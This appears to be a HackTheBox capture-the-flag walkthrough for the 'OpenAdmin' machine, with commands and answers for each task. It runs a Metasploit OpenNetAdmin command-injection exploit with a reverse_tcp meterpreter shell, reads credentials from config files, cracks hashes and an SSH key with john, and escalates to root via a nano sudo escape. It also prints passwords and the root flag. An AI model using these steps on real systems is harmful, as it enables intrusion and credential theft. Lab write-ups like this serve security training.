


# HackTheBox Walkthrough - Machine: OpenAdmin

**Target IP**: 10.129.23.96  
**Difficulty**: Easy  
**Objective**: Exploit OpenNetAdmin on the target to gain user and root access.

---

## Task 1: There are three directories on the webserver. /artwork, /sierra, and what else?

Nmap 스캔:
```bash
nmap -sV -sC -oA nmap/OpenAdmin 10.129.23.96
```


Gobuster로 디렉토리 검색:
```bash
gobuster dir -u http://10.129.23.96/ -w /usr/share/wordlists/dirb/common.txt -x php,txt
```


**Answer**: `/music`

---

## Task 2: /music 경로에서 어드민 도구로 연결되는 상대 경로는?

HTML 소스코드 확인 결과:
```html
<a href="../ona" class="login">Login</a>
```


**Answer**: `/ona`

---

## Task 3: OpenNetAdmin 버전은?

접속: `http://10.129.23.96/ona/`  
페이지 하단에서 확인 가능:  


**Answer**: `v18.1.1`

---

## Task 4: Exploit 후 실행 권한이 부여된 유저는?



Metasploit 사용:
```bash
msfconsole
search OpenNetAdmin
use exploit/unix/webapp/opennetadmin_ping_cmd_injection
set RHOSTS 10.129.23.96
set LHOST 10.10.14.156
set payload linux/x64/meterpreter/reverse_tcp
run
```


```bash
meterpreter > getuid
Server username: www-data
```

**Answer**: `www-data`

---

## Task 5: jimmy 사용자의 비밀번호는?

```bash
cat /opt/ona/www/local/config/database_settings.inc.php
```


**Answer**: `n1nj4W4rri0R!`

---


## Task 7: joanna 사용자와 관련된 Virtual Host는?

```bash
cat /etc/apache2/sites-available/internal.conf
```


**Answer**: `internal.openadmin.htb`

---

## Task 8: joanna의 내부 웹 비밀번호는?

```bash
cat /var/www/internal/index.php
```


john으로 크랙:
```bash
john --format=Raw-SHA512 --wordlist=/usr/share/wordlists/rockyou.txt hashfile
```


**Answer**: `Revealed`

---

## Task 9: joanna의 프라이빗 키 비밀번호는?

포트 52846 포워딩 후 내부 웹 접근:  


- 로그인: jimmy / Revealed  
- Joanna의 Private Key 획득  


```bash
ssh2john id_rsa > id_rsa.hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```


**Answer**: `bloodninjas`

---

  


## Task 10: Joanna가 root 권한으로 실행 가능한 바이너리는?

```bash
sudo -l
```


```bash
(ALL) NOPASSWD: /bin/nano /opt/priv
```

**Answer**: `nano`

---

## Submit Root Flag


```bash
sudo /bin/nano /opt/priv
# Ctrl+R, Ctrl+X
reset; sh 1>&0 2>&0
```


```bash
id
cat /root/root.txt
```


**Answer**: `78897901971b35f79397fb168713dd86`

---
